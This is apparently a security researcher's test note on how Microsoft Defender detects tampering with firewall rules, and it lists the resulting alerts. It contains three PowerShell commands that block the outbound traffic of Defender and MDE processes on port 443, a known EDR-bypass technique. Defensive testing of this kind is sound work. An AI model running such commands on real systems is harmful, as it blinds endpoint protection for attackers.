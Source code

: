 # Firewall Tampering, Blocking EDR/AV communication
Microsoft Defender Antivirus detects and **prevents tampering** with the creation of firewall rules for both Microsoft Defender for Endpoint and Microsoft Defender Antivirus.

## TEST insights
**[Bypassing Defender EDR using Windows Firewall - mitigations](https://write-verbose.com/2022/05/31/EDRBypass/)**
```Powershell
New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block
New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```


## Alerts & Detections
After testing, Microsoft Defender Antivirus detected these alerts.

- [x] An active 'MpTamperBlockNewFirewall' malware was prevented from executing via AMSI
- [x] An active 'DefenderFirewallTamper' malware in a command line was prevented from executing
- [x] Suspicious 'WDBlockFirewallRule' behavior was blocked

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/7d86f078-852b-482b-bd4d-51c4b79c467d)

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/1dd25ae9-0f60-4391-93a1-a5b3b1bc3118)


#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
